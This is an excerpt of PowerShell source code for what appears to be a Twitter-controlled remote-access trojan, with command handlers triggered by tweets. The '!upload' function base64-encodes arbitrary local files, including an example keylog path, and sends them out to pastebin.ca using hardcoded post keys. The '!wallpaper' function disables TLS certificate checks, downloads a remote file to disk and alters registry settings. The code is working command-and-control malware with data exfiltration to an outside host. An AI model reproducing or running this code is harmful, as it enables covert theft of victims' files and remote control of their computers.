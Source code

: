         #Implement the !upload command to upload files pastebin.ca where the paste name will be the uniquestring variable
        #Ex: !upload|c:\demo\keylog.txt
        Function UploadCommand {
            [string] $File = $LatestTweet.split('|')[1]
            
            #If the file is found, encode it in base64
            if (Test-Path $File) {
                $FileBytes = [System.IO.File]::ReadAllBytes($File)
                $EncodedFile = [System.Convert]::ToBase64String($FileBytes)
                
                if ($EncodedFile.length -lt 15000) { 
                    $PasteName = $UniqueString
                    $ApiKey = $WebClientObject.DownloadString('http://pastebin.ca/apikey.php')
                    
                    #Create a collections object to place post parameters in, postkey may expire?
                    $CollectionObject = New-Object System.Collections.Specialized.NameValueCollection
                    $CollectionObject.Add('content',"$EncodedFile")
                    $CollectionObject.Add('name',"$UniqueString")
                    $CollectionObject.Add('postkey','d2d59669f40943f1bf3bdb6141fd1c9a38bc2ad4')
                    $CollectionObject.Add('postkeysig','icWKPdAtFFCOV8jZRb9MhcOpqOl2LIVBfq4lgnPSGQ4%3D')
                    $CollectionObject.Add('s','Submit+Post')

                    #call uploadvalues method of webclient
                    $Upload = ($WebClientObject.UploadValues("http://pastebin.ca/quiet-paste.php?api=$ApiKey", $CollectionObject))  
                }
            }
        }

        #Implements the !wallpaper command to download and set the wallpaper to the new image
        #Ex: !wallpaper|http://itechbook.net/wp-content/uploads/6a00d8341c652b53ef017615ff8a0b970c-800wi.jpg/|c:\windows\temp\1.jpg
        Function WallpaperCommand {
            [string] $downloadURL = $LatestTweet.split('|')[1]
            [string] $FileOnDisk =  $LatestTweet.split('|')[2]

            if ($downloadURL.Substring(0,5) -ceq "https") {
                [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True }
            }

            #Twitter automatically shortens every URL so we need to get the actual URL
            $WebRequest = [System.Net.Webrequest]::create($downloadURL)
            $WebResponse = $WebRequest.GetResponse()
            $ActualdownloadURL = $WebResponse.ResponseUri.AbsoluteUri
            $WebResponse.Close()
            Write-Verbose "I am downloading from $ActualdownloadURL"
            Write-Verbose "I am saving the file to $FileOnDisk"
            $downloadedImage = $WebClientObject.downloadFile($downloadURL,"$FileOnDisk")
        
            #Set downloaded image as wallpaper, may take a few minutes to update
            Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name wallpaper -Value $FileOnDisk
            [string] $CmdString = 'rundll32.exe user32.dll, UpdatePerUserSystemParameters'
            Invoke-Expression $CmdString
        }
